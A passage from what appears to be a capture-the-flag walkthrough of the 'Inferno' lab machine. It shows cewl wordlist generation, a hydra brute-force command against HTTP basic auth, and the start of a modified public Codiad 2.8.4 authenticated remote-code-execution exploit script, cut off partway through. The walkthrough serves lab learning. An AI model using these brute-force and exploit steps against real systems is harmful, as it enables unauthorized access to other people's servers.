 * The title of the webpage includes the words 'dante' and 'inferno'; other than that, 'admin' and 'root' are common usernames. In addition to this, we can generate a wordlist from the website's words using ```cewl```. And based on this we can bruteforce:

  ```sh
  cewl -d 5 -m 4 -e http://inferno.thm -w users.txt

  vim users.txt
  # append these usernames - dante, inferno, admin, root

  hydra -L users.txt -P /usr/share/wordlists/rockyou.txt inferno.thm http-get '/inferno' -u -t 25
  # by default, hydra will go through all passwords first with each username
  # -u is to tell hydra to go first for all usernames with each password
  ```

* After quite a while, ```hydra``` gives us the creds "admin:dante1" - we can use this for '/inferno' login

* After using the creds for basic authentication, the /inferno page leads us to a login form for Codiad

* Google shows that Codiad is a web-based cloud IDE

* Using the previous creds "admin:dante1", we are able to log into this, and we get access to a project named 'inferno'; we can check these project files for any interesting finds

* 'config.php' shows the base path as ```/var/www/html/inferno``` and '/data/users.php' shows the hash of creds - this matches with the used password

* Searching for exploits related to Codiad gives us quite a few results related to authenticated RCE - we can go through the [Python script for Codiad 2.8.4 - authenticated RCE](https://www.exploit-db.com/exploits/49705)

* For the script to work, we would have to add the part for the initial HTTP authentication as well, otherwise it will not work - the final script will look like this (I did not edit the Windows payload part):

  ```py
  # Exploit Title: Codiad 2.8.4 - Remote Code Execution (Authenticated)
  # Discovery by: WangYihang
  # Vendor Homepage: http://codiad.com/
  # Software Links : https://github.com/Codiad/Codiad/releases
  # Tested Version: Version: 2.8.4
  # CVE: CVE-2018-14009


  #!/usr/bin/env python
  # encoding: utf-8
  import requests
  import sys
  import json
  import base64
  session = requests.Session()
  def login(domain, username, password):
      global session
      url = domain + "/components/user/controller.php?action=authenticate"
      data = {
          "username": username,
          "password": password,
          "theme": "default",
          "language": "en"
      }
      # need to include this header for basic HTTP authentication
      headers = {
          "Authorization": "Basic YWRtaW46ZGFudGUx"
      }
      response = session.post(url, data=data, headers=headers, verify=False)
      content = response.text
  ```